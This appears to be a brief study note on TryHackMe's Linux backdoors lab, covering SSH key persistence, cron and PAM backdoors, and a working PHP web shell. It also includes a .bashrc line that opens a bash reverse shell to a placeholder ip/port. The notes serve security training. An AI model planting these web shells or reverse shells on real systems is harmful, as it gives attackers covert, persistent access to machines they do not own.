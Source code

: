 # Room
https://tryhackme.com/room/linuxbackdoors

# Task 1 - Intro
A backdoor ensures consistent access to the compromised machine

# Task 2 - SSH Backdoors
SSH backdoors - leave SSH keys in a user's home directory

* Example
  * generate keys
    * ssh-keygen
  * copy keys
    * ssh-copy-id
  * using the keys
    * ssh -i keyname user@host

# Task 3 - PHP Backdoors
Example malicious PHP file

```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

# Task 4 - CronJob Backdoors
Create a cronjob that will run a script that sends a reverse shell or another malicious action

# Task 5 - .bashrc Backdoors
Edit the user .bashrc file and place a reverse shell in it

```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

# Task 6 - pam_unix.so Backdoors
Example
* https://github.com/zephrax/linux-pam-backdoor